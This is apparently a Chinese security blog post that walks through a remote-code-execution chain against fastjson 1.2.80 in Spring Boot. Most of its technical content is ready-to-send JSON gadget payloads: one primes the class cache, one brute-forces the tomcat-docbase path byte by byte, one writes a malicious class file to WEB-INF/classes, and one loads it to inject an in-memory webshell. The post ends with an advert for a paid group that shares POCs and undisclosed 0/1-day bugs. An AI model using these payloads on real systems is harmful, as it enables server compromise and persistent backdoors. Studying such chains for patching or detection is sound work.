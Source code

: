 #  fastjson 1.2.80 springboot下rce利用链学习  
原创 zzz  良月安全   2025-06-20 01:30  
  
# 免责声明  
  
本公众号所发布的所有内容，包括但不限于信息、工具、项目以及文章，均旨在提供学习与研究之用。所有工具安全性自测。如因此产生的一切不良后果与文章作者和本公众号无关。如有涉及公司与个人敏感信息，侵权烦请告知，我们会立即删除并致歉。  
# fastjson 1.2.80 springboot下rce利用链学习  
## 前言  
  
fastjson 1.2.73-1.2.80版本，可通过如下payload加载继承了Exception的类  
```
{    "@type":"java.lang.Exception",    "@type":"calc"}
```  
  
当在本地找不到要加载的类时，TomcatEmbeddedWebappClassLoader类加载器加载类时会尝试从tomcat-docbase下的WEB-INF/classes目录中查找类进行加载  
## 类缓存  
  
首先发送如下请求，将要用到的类加入到缓存  
```
{    "a": "{    \"@type\": \"java.lang.Exception\",    \"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\",    \"p\": {    }  }",    "b": {      "$ref": "$.a.a"    },    "c": "{  \"@type\": \"com.fasterxml.jackson.core.JsonParser\",  \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\",  \"in\": {}}",    "d": {      "$ref": "$.c.c"    }  }
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rIctWiaMP3Zk9fBkrwqyMMZFVebPt7TPVls7w06KgPpvXmiciasCtp9lJA/640?wx_fmt=png&from=appmsg "")  
## 爆破路径  
  
然后需要获取tomcat-docbase的路径，利用列举目录的利用链来爆破获取${file}  
为要读取的文件目录，linux下启动的spring，tomcat-docbase的路径默认在/tmp下，${data}  
为需要爆破的路径的首字符，其格式如：[104]，如果正确则会返回对应的字符  
```
{    "a": {      "@type": "java.io.InputStream",      "@type": "org.apache.commons.io.input.BOMInputStream",      "delegate": {        "@type": "org.apache.commons.io.input.BOMInputStream",        "delegate": {          "@type": "org.apache.commons.io.input.ReaderInputStream",          "reader": {            "@type": "jdk.nashorn.api.scripting.URLReader",            "url": "${file}"          },          "charsetName": "UTF-8",          "bufferSize": "1024"        },        "boms": [          {            "charsetName": "UTF-8",            "bytes": ${data}          }        ]      },      "boms": [        {          "charsetName": "UTF-8",          "bytes": [1]        }      ]    },    "b": {"$ref":"$.a.delegate"}  }
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rfjExrcFXPtAZMphexU1H0zOUgkMcv31Kw3Sjyib8TtCsm6dQWN6GHKA/640?wx_fmt=png&from=appmsg "")  
  
第一个爆破成功了，就接着爆破第二个，[104,115]  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rV5GBEyBtSpibtT2ibWGGtaQyN3GO76y1htGYzbMaSmqkAzdLB0OlJgbw/640?wx_fmt=png&from=appmsg "")  
  
如此，即可爆破出/tmp目录下tomcat-docbase的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rhXODg7nianicMU2rRMDSLLy18ibGEhxjNVSNa6Kjk0cagbDLKmrbHS6icA/640?wx_fmt=png&from=appmsg "")  
## 写入class文件  
  
向tomcat-docbase的路径下写入/WEB-INF/classes/xxx.class文件，xxx.class文件就是我们构造的恶意class文件，利用如下文件写入链，${shellcode}  
为要写入的文件内容，${size}  
为要写入的文件大小，${file2write}  
为要写入的文件路径，这条利用链可以直接创建目录  
```
{    "a": {      "@type": "java.io.InputStream",      "@type": "org.apache.commons.io.input.AutoCloseInputStream",      "in": {        "@type": "org.apache.commons.io.input.TeeInputStream",        "input": {          "@type": "org.apache.commons.io.input.CharSequenceInputStream",          "cs": {            "@type": "java.lang.String"            "${shellcode}",            "charset": "iso-8859-1",            "bufferSize": ${size}          },          "branch": {            "@type": "org.apache.commons.io.output.WriterOutputStream",            "writer": {              "@type": "org.apache.commons.io.output.LockableFileWriter",              "file": "${file2write}",              "charset": "iso-8859-1",              "append": true            },            "charset": "iso-8859-1",            "bufferSize": 1024,            "writeImmediately": true          },          "closeBranch": true        }      },      "b": {        "@type": "java.io.InputStream",        "@type": "org.apache.commons.io.input.ReaderInputStream",        "reader": {          "@type": "org.apache.commons.io.input.XmlStreamReader",          "inputStream": {            "$ref": "$.a"          },          "httpContentType": "text/xml",          "lenient": false,          "defaultEncoding": "iso-8859-1"        },        "charsetName": "iso-8859-1",        "bufferSize": 1024      },      "c": {}    }
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rpDfpzriclQmWE2Iq53TxwAwhhE6AL87vRBkmmuW3EU3jNmA2jdHkcPA/640?wx_fmt=png&from=appmsg "")  
  
如果要确认有没有成功写入class文件，可以利用上面的爆破路径利用链读取/tmp/${docbase}/WEB-INF/classes目录进行确认  
## 类加载  
  
构造恶意类用jmg生成一个spring mvc的内存马就行了，需要继承Exception类  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2r5hGoUjhMljJInibC5ibIxPN3EBoibHIoSw13wP4EFoYQCFnQQat8Dt0nQ/640?wx_fmt=png&from=appmsg "")  
  
最后发送如下poc，加载我们构造的恶意class文件  
```
{    "@type":"java.lang.Exception",    "@type":"StringUtilException"  }
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2rZDepNVLptIxFKoNNUOIIaoicqGxNgjTndJuyMWtfHOia33Ad2bRvaicmg/640?wx_fmt=png&from=appmsg "")  
  
成功注入内存马  
  
![](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82gAibv5JEs3BaMoMHyG2vc2r8uuhAtffKwsaXXiapxUobuiakpw4qAuiaseOMEgcG0AQNNKiapRt4gtbCw/640?wx_fmt=png&from=appmsg "")  
## 参考链接  
  
https://xz.aliyun.com/news/16145 https://mp.weixin.qq.com/s/n8RW0NIllcQ0sn3nI9uceA  
# 关于星球  
  
星球里有团队内部POC分享。星球定期更新安全内容，包括：内部漏洞库情报分享（包括部分未公开0/1day）、poc利用工具及内部最新研究成果。圈子目前价格为129元（交个朋友），后续人员加入数量多的话会考虑涨价（先到先得！！）感谢师傅们的支持！！![image](https://mmbiz.qpic.cn/mmbiz_png/icm9yIBVk82jgcXGIvrTZZpzXJ1uibrCtRRn4yytlCGSsSfRZicib62GlHaz4ibXI8zWEvTuoW9G3e76BmaRBgvpy0Q/640?wx_fmt=png&from=appmsg "")  
  
  

